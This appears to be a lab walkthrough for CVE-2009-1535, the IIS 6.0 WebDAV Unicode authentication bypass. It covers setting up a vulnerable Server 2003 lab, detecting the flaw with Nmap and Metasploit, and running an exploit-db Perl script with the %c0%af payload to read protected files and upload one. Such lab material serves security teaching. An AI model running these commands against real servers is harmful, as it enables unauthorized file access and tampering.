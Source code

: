 
CVE-2009-1535  |  IIS 6.0 WebDAV Unicode Authentication Bypass

Part 1: https://www.youtube.com/watch?v=DRxaEvuwQbA

Part 2: https://www.youtube.com/watch?v=mz8DlKZyXTk

--------------

IIS 6.0 WebDAV Unicode Authentication Bypass

CVE-2009-1535

https://www.cvedetails.com/cve/CVE-2009-1535/

https://www.rapid7.com/db/modules/auxiliary/scanner/http/dir_webdav_unicode_bypass

--------------

### Part 1 

1. On Server 2003 machine, create the following folder structure:

C:\demo1\demo11\secret111.txt
C:\demo2\demo22\secret222.txt

2. Enable WebDAV...

Default Web Site > New > Virtual Directory > Alias => intranet1
Default Web Site > New > Virtual Directory > Alias => intranet2

Web Site Properties > Home Directory > Read + Write + Directory browsing 
		    > Directory Security > Authentication Method > only Windows Authenticated Users can access this 

3. Testing authentication method

Try to access the website/file on victim machine
http://192.168.50.3/intranet1/demo1/demo11/secret111.txt

Try to access the website/file from Kali machine
http://192.168.50.3/intranet2/demo2/demo22/secret222.txt

4. Use the following scripts to check the vulnerability

Option 1: using Nmap

> nmap --script http-iis-webdav-vuln -p 80 192.168.50.3

Need to add "intranet1" + "intranet2" manually into the dictionary file
```
nmap --script http-iis-webdav-vuln --script-args=webdavfolder=intranet1 -p 80 192.168.50.3
nmap --script http-iis-webdav-vuln --script-args=webdavfolder=intranet2 -p 80 192.168.50.3
```
Option 2: using Metasploit module

msf> use auxiliary/scanner/http/dir_webdav_unicode_bypass

Need to add "intranet1" + "intranet2" manually into the dictionary file
```
echo intranet1 >> /usr/share/metasploit-framework/data/wmap/wmap_dirs.txt
echo intranet2 >> /usr/share/metasploit-framework/data/wmap/wmap_dirs.txt
```
Why does Directory traversal attack %C0%AF work?

https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work

### Part 2 

5. Exploit

https://www.exploit-db.com/exploits/8806/

perl webdav_bypass.pl 192.168.50.3 intranet1/%c0%af
```
path
```
Copy XML content to temp.html > open with Web browser

perl webdav_bypass.pl 192.168.50.3 intranet1/%c0%af/demo1/demo11/secret111.txt
```
source
```
perl webdav_bypass.pl 192.168.50.3 intranet1/%c0%af/demo1/demo11/secret111.txt
```
put  =>  /root/pm.txt
```
Try to access that file from local/remote machine (my_file.txt)

http://192.168.50.3/intranet1/demo1/demo11/my_file.txt

